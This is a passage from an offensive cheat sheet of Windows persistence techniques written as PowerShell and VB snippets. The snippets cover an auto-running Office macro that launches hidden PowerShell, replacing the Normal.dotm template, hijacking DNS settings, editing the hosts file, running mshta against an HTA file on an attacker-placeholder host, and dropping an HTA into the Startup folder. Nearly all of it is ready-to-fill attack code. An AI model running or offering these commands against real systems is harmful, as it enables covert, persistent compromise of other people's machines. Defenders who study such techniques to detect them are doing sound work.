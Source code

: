 #### Embed Malicious Macro in Office Document
- Embeds a malicious macro in an Office document:
	```vb
	$macro = @"
	Sub AutoOpen()
	    Shell "powershell.exe -NoProfile -WindowStyle Hidden -Command <command_or_script_path>"
	End Sub
	"@
	$macro | Set-Content -Path "<path_to_office_document>"
	```

#### Persist via Office Template Injection
- Modifies the Office template to include a malicious macro:
	```powershell
	Copy-Item "<path_to_malicious_template>" -Destination "$env:APPDATA\Microsoft\Templates\Normal.dotm" -Force
	```

# DNS and Name Resolution

#### Persist via DNS Hijacking
- Modifies the DNS settings for persistence:
	```powershell
	Set-DnsClientServerAddress -InterfaceAlias "Ethernet" -ServerAddresses ("<malicious_dns_ip>")
	```

#### Persist via Host File Modification
- Modifies the host file to include malicious redirection:
	```powershell
	Add-Content -Path "$env:SystemRoot\System32\drivers\etc\hosts" -Value "127.0.0 malicious_site.com"
	```

# MSHTA and HTML Applications (HTA) Persistence

#### Persist via MSHTA
- Uses MSHTA to execute a script for persistence:
	```powershell
	Start-Process mshta.exe "http://<attacker_ip>/malicious.hta"
	```

#### Persist via Local HTA File
- Creates a local HTA file for persistence:
	```
	$htaContent = @"
	<script>
	    var shell = new ActiveXObject("WScript.Shell");
	    shell.Run("powershell.exe -NoProfile -WindowStyle Hidden -Command <command_or_script_path>");
	    window.close();
	</script>
	"@
	$htaContent | Out-File -FilePath "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\malicious.hta"
	```
